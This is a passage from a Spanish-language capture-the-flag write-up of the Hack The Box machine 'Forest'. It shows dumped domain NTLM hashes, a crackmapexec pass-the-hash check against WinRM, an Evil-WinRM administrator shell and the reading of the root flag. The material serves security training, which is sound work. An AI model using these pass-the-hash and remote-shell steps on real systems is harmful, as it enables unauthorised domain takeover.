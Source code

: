 ```bash
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

[...]
```

Verificamos con el hash del usuario `Administrator` si podemos establecer una sesión con WinRM.

```bash
❯ crackmapexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
SMB         10.10.10.161    5985   FOREST           [*] Windows 10.0 Build 14393 (name:FOREST) (domain:htb.local)
HTTP        10.10.10.161    5985   FOREST           [*] http://10.10.10.161:5985/wsman
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\Administrator:32693b11e6aa90eb43d32c72a07ceea6 (Pwn3d!)
```

Habiendo confirmado que es posible, procedemos a acceder como usuario `Administrator` utilizando **Evil-WinRM**.

```bash
❯ evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

Finalmente, accedemos a la flag de root.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
cea91b219c210709****************
```

!Happy Hacking¡

